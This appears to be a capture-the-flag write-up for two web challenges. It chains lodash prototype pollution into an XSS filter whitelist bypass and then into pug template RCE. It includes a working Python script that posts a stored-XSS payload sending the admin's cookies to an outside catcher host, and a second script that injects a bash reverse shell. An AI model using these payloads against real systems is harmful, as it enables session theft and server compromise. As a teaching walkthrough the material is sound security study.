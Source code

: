 # valentina

Valentina contained 2 challenges sharing a vulnerability but with different applications.

## Challenge 1

The website admin checks her reviews with secrets in her cookies.

## Walkthrough 1

Given that this project was deep into npm dependency hell the first obvious step was to check if any libraries had vulnerabilities.

```
$ npm audit
...
lodash  <=4.17.20
Severity: critical
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
Prototype pollution in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
...
```

Digging into these vulnerabilities and the source code unveiled that [CVE-2018-3721](https://snyk.io/test/npm/lodash/4.17.4#npm:lodash:20180130), a [prototype pollution](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/) vulnerability, was likely the target.

> The vulnerable functions are 'defaultsDeep', 'merge', and 'mergeWith' which allow a malicious user to modify the prototype of Object via __proto__ causing the addition or modification of an existing property that will exist on all objects.

```js
app.post('/add_review', function (req, res) {
	// ...
	let review_template = {
		review_id: id,
		name: "Valentina",
		message: "your work is amazing!",
		stars: 5
	}

	let new_review = req.body;
	_.merge(review_template, new_review); // <-- this looks vulnerable!
	let cleaned_msg = xss(new_review.message);
	reviews.set(id, cleaned_msg);
	// ...
});
```

Now that I had a way to pollute arbitrary objects, I just needed to find a way to bypass `xss()`, an html escaping function in [xssjs](https://github.com/leizongmin/js-xss).

```js
FilterXSS.prototype.process = function (html) {
	// ...
	var options = me.options; 			// not set in valentina
	var whiteList = options.whiteList;  // looks like we can control this
	// ...
```

Reading the source code revealed that we could control the `whiteList` variable which controlled which tags were escaped.

```json
"whiteList": {
	"a": ["target", "href", "title"],
	"abbr": ["title"],
	"address": [],
	"_comment": "...",
}
```

To retrieve the cookies I added the `script` tag to the whitelist and than had the admin visit the review.

```py
import requests

url = "http://localhost:8999/add_review"
payload = "fetch('https://crimist.requestcatcher.com/'+document.cookie)"
review = requests.post(url, headers={'content-type': 'application/json'},
                            data='{"__proto__": {"whiteList": {"script": []}}, "message": "<script>' + payload + '</script>"}')
id = review.text.split(":")[1]
print("http://localhost:8999/view_review?review_id=" + id) # submit this to /report
```

## Solve 1

`maple{l0d4sh_more_lyk_n0da5h_haha_get_it}`

## Challenge 2

`flag.txt` exists in the projects directory.

## Walkthrough 2

Given that this website was served by nodejs and I couldn't read arbitrary files it was clear I'd have to pwn the server further.

After searching for ways to exploit this prototype pollution vulnerability further I found [this blog post](https://blog.p6.is/AST-Injection/#Pug) about exploiting [pug](https://github.com/pugjs/pug), the template engine used in this project.

I won't re-hash their work, check out the post if you're interested. To summarize, it gets you RCE so you can pop a reverse shell.

```py
import requests

url = "http://localhost:8999"
review = requests.post(url + "/add_review", json={
    "__proto__": {
        "debug": True,
        "block": {
            "type": "Text",
            "line": "console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<ipip>/3333 0>&1'`))",
        },
    },
    "message": ":)",
})
```

## Solve 2

`maple{Th1s_was_really_c0mpl1cAted_Im_s0rrY}`
